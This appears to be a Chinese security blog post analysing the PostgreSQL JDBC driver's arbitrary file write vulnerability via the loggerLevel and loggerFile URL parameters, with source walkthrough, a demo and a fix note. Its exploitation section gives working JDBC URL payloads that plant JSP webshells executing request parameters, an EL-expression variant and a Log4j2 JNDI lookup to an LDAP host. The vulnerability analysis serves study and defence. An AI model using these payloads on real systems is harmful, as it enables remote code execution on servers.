




---
title: "PostgreSQL JDBC 任意文件写入漏洞"
date: 2026-02-27T14:08:50+08:00
summary: "尽量多放代码块不放图片吧，感觉上篇放图片太多了加载有点慢"
url: "/posts/Java之PostgreSQL JDBC 任意文件写入漏洞/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

# 漏洞描述

当攻击者可以控制 JDBC Url 时，可以通过 loggerLevel/loggerFile 参数来指定日志记录的等级以及日志记录的位置，因此可以写入 JSP 文件，可能导致 RCE。

# 影响版本

- 42.3.x < 42.3.3
- 42.1.x

# 漏洞代码

在pom.xml中导入对应的PostgreSQL依赖

```xml
<dependency>
    <groupId>org.postgresql</groupId>
    <artifactId>postgresql</artifactId>
    <version>42.3.2</version>
<dependency>
```

漏洞代码在jdbc初始化的时候，也就是org.postgresql.Driver#connect方法执行完parseURL解析了url之后会调用 `org.postgresql.Driver#setupLoggerFromProperties` 方法



跟进该方法

```java
  private void setupLoggerFromProperties(final Properties props) {
    final String driverLogLevel = PGProperty.LOGGER_LEVEL.get(props);
    if (driverLogLevel == null) {
      return; // Don't mess with Logger if not set
    }
    if ("OFF".equalsIgnoreCase(driverLogLevel)) {
      PARENT_LOGGER.setLevel(Level.OFF);
      return; // Don't mess with Logger if set to OFF
    } else if ("DEBUG".equalsIgnoreCase(driverLogLevel)) {
      PARENT_LOGGER.setLevel(Level.FINE);
    } else if ("TRACE".equalsIgnoreCase(driverLogLevel)) {
      PARENT_LOGGER.setLevel(Level.FINEST);
    }

    ExpressionProperties exprProps = new ExpressionProperties(props, System.getProperties());
    final String driverLogFile = PGProperty.LOGGER_FILE.get(exprProps);
    if (driverLogFile != null && driverLogFile.equals(loggerHandlerFile)) {
      return; // Same file output, do nothing.
    }

    for (java.util.logging.Handler handlers : PARENT_LOGGER.getHandlers()) {
      // Remove previously set Handlers
      handlers.close();
      PARENT_LOGGER.removeHandler(handlers);
      loggerHandlerFile = null;
    }

    java.util.logging.Handler handler = null;
    if (driverLogFile != null) {
      try {
        handler = new java.util.logging.FileHandler(driverLogFile);
        loggerHandlerFile = driverLogFile;
      } catch (Exception ex) {
        System.err.println("Cannot enable FileHandler, fallback to ConsoleHandler.");
      }
    }

    Formatter formatter = new SimpleFormatter();

    if ( handler == null ) {
      if (DriverManager.getLogWriter() != null) {
        handler = new LogWriterHandler(DriverManager.getLogWriter());
      } else if ( DriverManager.getLogStream() != null) {
        handler = new StreamHandler(DriverManager.getLogStream(), formatter);
      } else {
        handler = new ConsoleHandler();
      }
    } else {
      handler.setFormatter(formatter);
    }

    Level loggerLevel = PARENT_LOGGER.getLevel();
    if (loggerLevel != null) {
      handler.setLevel(loggerLevel);
    }
    PARENT_LOGGER.setUseParentHandlers(false);
    PARENT_LOGGER.addHandler(handler);
  }
```

根据我们的JDBC连接参数去动态配置一个日志记录功能，首先配置loggerLevel日志的等级和loggerFile日志的文件位置，并且会创建新的FileHandler删除旧的Handler避免重复，从这里可以看出如果我们设置了loggerLevel和loggerFile两个参数，就会另外使用新配置的文件进行记录日志

跳出setupLoggerFromProperties方法，然后有一个 `LOGGER.log(Level.FINE, "Connecting with URL: {0}", url);`的操作，这里直接调用`java.util.logging#Logger.log`方法将URL写入了日志，这里对应的级别是FINE，其实也就是DEBUG

```java
    public void log(Level level, String msg, Object param1) {
        if (!isLoggable(level)) {
            return;
        }
        LogRecord lr = new LogRecord(level, msg);
        Object params[] = { param1 };
        lr.setParameters(params);
        doLog(lr);
    }
```

写个demo测试一下就知道了

# demo测试

```java
package PostgreSQLJDBC;

import java.sql.DriverManager;
import java.sql.SQLException;

public class pgSQL_write_vuln {
    public static void main(String[] args) throws SQLException {
        String loggerLevel = "DEBUG";
        String loggerFile = "E:\\java\\JavaSec\\JDBCSerialize\\src\\main\\java\\test.jsp";
        String shellContent = "<%25Test%25>";

        String dbUrl = "jdbc:postgresql:///?loggerLevel="+loggerLevel+"&loggerFile="+loggerFile+"&"+shellContent;
        System.out.println(dbUrl);
        DriverManager.getConnection(dbUrl);
    }
}
```



可以看到确实是成功写入了的

# 利用方式

## 结合Log4j2

说到日志，就不得不想到Log4j2这个组件，既然是记录日志，则有可能配合 log4j2 实现 JNDI 注入

```java
jdbc:postgresql:///${jndi:ldap://127.0.0.1:1389/exp}?loggerLevel=TRACE&loggerFile=log.log
```

能写文件，不过还要出网

## JSP_webshell

最经典的 webshell 写入，也是前面分析过的，但需要注意一个URL解码的解析问题

由于会在部分位置进行 url 解码，因此要避开 `<% %>` 被 urldecode 报错的问题。例如

```java
jdbc:postgresql:///?loggerLevel=DEBUG&loggerFile=/tmp/a1.jsp&<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```

或者直接写在前面：

```java
jdbc:postgresql://<%Runtime.getRuntime().exec(request.getParameter("i"));%>/?loggerLevel=DEBUG&loggerFile=/tmp/a2.jsp
```

具体的原因直接参考师傅的文章：https://su18.org/post/postgresql-jdbc-attack-and-stuff/#4-%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F

当然也可以用EL表达式，pyn3rd 师傅在他的文章中给出他的这种利用思路

```java
jdbc:postgresql://127.0.0.1:5432/testdb?ApplicationName=${Runtime.getRuntime().exec("open -a calculator")}&loggerLevel=TRACE&loggerFile=../../../wlserver/server/lib/consoleapp/webapp/framework/skins/wlsconsole/images/calc.jsp
```

更进阶的一个写法是来自 whwlsfb 大哥的分享

```java
jdbc:postgresql:${""[param.a]()[param.b](param.c)[param.d]()[param.e](param.f)[param.g](param.h)}?loggerLevel=TRACE&loggerFile=/tomcat/.../a.jsp
```

然后可以传入参数进行动态类方法的加载调用



# 漏洞修复

对于PgSQL JDBC来说，其实日志记录并不算是一个很重要的功能，往深了说关于日志记录的等级、文件位置这些并不应该作为一个用户可控的内容，所以在修复版本42.3.3 版本就移除了相应的方法内容和调用



参考文章：

https://forum.butian.net/share/1339

https://su18.org/post/postgresql-jdbc-attack-and-stuff/
